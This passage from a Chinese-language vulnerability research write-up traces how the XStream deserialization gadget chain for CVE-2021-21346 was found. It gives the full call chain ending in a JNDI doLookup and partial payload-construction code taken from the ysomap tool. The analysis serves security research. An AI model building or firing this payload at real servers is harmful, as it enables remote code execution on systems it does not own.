 这里的类属性value发起了equals函数，往下看`com.sun.org.apache.xpath.internal.objects.XString#equals`

```
public boolean equals(Object obj2)
  `{`

    if (null == obj2)
      return false;

      // In order to handle the 'all' semantics of
      // nodeset comparisons, we always call the
      // nodeset function.
    else if (obj2 instanceof XNodeSet)
      return obj2.equals(this);
    else if(obj2 instanceof XNumber)
        return obj2.equals(this);
    else
      return str().equals(obj2.toString());
  `}`
```

这里直接调用了obj2的toString函数，所以连上前面的利用链完整的利用链就出来了

```
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XString.equal
        javax.swing.MultiUIDefaults.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```

至此，CVE-2021-21346就挖出来了，相对于人工挖，当前的方法大幅度减少了利用链的可能性种类，同样，另一条CVE-2021-21351也是同样的方法可以发现，以后有空再补充些其他的案例:)



## 利用链构造

当前这条利用链的构造相对来说比较简单，只需要构造好MultiUIDefaults即可，下面为部分构造代码，详细见[LazyValue](https://github.com/wh1t3p1g/ysomap/blob/master/core/src/main/java/ysomap/core/payload/xstream/LazyValue.java#L60)

```
UIDefaults uiDefaults = new UIDefaults();
Object multiUIDefaults =
  ReflectionHelper.newInstance("javax.swing.MultiUIDefaults", new Object[]`{`new UIDefaults[]`{`uiDefaults`}``}`);
uiDefaults.put("lazyValue", obj);

Object rdnEntry1 = ReflectionHelper.newInstance("javax.naming.ldap.Rdn$RdnEntry", null);
ReflectionHelper.setFieldValue(rdnEntry1, "type", "ysomap");
ReflectionHelper.setFieldValue(rdnEntry1, "value", new XString("test"));

Object rdnEntry2 = ReflectionHelper.newInstance("javax.naming.ldap.Rdn$RdnEntry", null);
ReflectionHelper.setFieldValue(rdnEntry2, "type", "ysomap");
ReflectionHelper.setFieldValue(rdnEntry2, "value", multiUIDefaults);

return PayloadHelper.makeTreeSet(rdnEntry2, rdnEntry1);
```

